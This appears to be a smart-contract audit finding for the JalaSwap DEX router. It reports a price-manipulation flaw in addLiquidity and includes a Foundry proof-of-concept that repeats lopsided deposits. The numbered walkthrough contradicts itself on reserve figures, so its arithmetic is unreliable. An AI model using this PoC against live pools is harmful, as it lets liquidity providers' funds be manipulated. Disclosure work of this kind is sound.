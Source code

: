 Active Lime Bison

high

# Price Manipulation by Adding Liquidity

## Summary
The optimizer calculation is inconsistence, which allows user to manipulate the price via the addLiquidity function.

## Vulnerability Detail
When the user want to add liquidity to the pool. It will first go thought the  optimizer at [line 43 ](https://github.com/sherlock-audit/2024-02-jala-swap/blob/main/jalaswap-dex-contract/contracts/JalaRouter02.sol#L43). This is to keep track the ratio to prevent the user manipulate the price.

## Impact
User might lose the token due to the inconsistent calculation.

## Code Snippet
1. User A deposits 10,000 tokensA and 10 tokensB. The reserve0 will update to 10,000,000,000,000,000,000,000 (10,000e18) and reserve1 to 10,000,000,000,000,000,000 (10e18). The difference between reserve1 and reserve0 will be 1,000.
2. If user B deposits 100,000 tokensA and 1 tokenB, the optimizer will maintain the correct ratio and prevent users from manipulating the price. Once the deposit is successful, reserve0 will update to 11,000,000,000,000,000,000,000 (11,000e18) and reserve1 to 11,000,000,000,000,000,000 (11e18). The difference between reserve1 and reserve0 will still remain at 10,000.
3. However, if we deposit with 1 tokenA and 100,000 tokensB, the difference between reserve0 and reserve1 will become a value greater than 1,000.

**POC**
```solidity
    function testPriceManipulationByAddingLiquidity() public {
        vm.startPrank(user0);
        //Approve router to spend the token.
        tokenA.approve(address(masterRouter), 10000);
        tokenB.approve(address(masterRouter), 10);
        masterRouter.wrapTokensAndaddLiquidity(
            address(tokenA),
            address(tokenB),
            10000,
            10,
            10000,
            10,
            user0,
            block.timestamp
        );
        vm.stopPrank();
        vm.startPrank(user1);
        for (uint256 i = 0; i < 100; i++) {
            tokenA.approve(address(masterRouter), 1000000);
            tokenB.approve(address(masterRouter), 1000000);
            masterRouter.wrapTokensAndaddLiquidity(
                address(tokenA),
                address(tokenB),
                1,
                100000,
                0,
                0,
                user1,
                block.timestamp
            );
        }
        vm.stopPrank();
        address pairAddress = factory.getPair(
            wrapperFactory.wrappedTokenFor(address(tokenA)),
            wrapperFactory.wrappedTokenFor(address(tokenB))
        );
        address wrappedTokenA = wrapperFactory.wrappedTokenFor(address(tokenA));
        address wrappedTokenB = wrapperFactory.wrappedTokenFor(address(tokenB));
        console.log("Pair Token A: ", IERC20(wrappedTokenA).balanceOf(pairAddress));
        console.log("Pair Token B: ", IERC20(wrappedTokenB).balanceOf(pairAddress));
        console.log("User0 Token A: ", tokenA.balanceOf(user0));
        console.log("User0 Token B: ", tokenB.balanceOf(user0));
        console.log("Liquidity of User 0: ", JalaPair(pairAddress).balanceOf(user0));
        console.log("User1 Token A: ", tokenA.balanceOf(user1));
        console.log("User1 Token B: ", tokenB.balanceOf(user1));
        console.log("Liquidity of User 1: ", JalaPair(pairAddress).balanceOf(user1));
    }
```

You may check the pair token value by adding at the addLiquidity function ([line 60](https://github.com/sherlock-audit/2024-02-jala-swap/blob/main/jalaswap-dex-contract/contracts/JalaRouter02.sol#L60)) in JalaRouter02
```solidity
        console.log("Pair Token A: ", IERC20(tokenA).balanceOf(pair));
        console.log("Pair Token B: ", IERC20(tokenB).balanceOf(pair));
```
## Tool used
Manual Review

## Recommendation
Make sure the optimizer work in both way.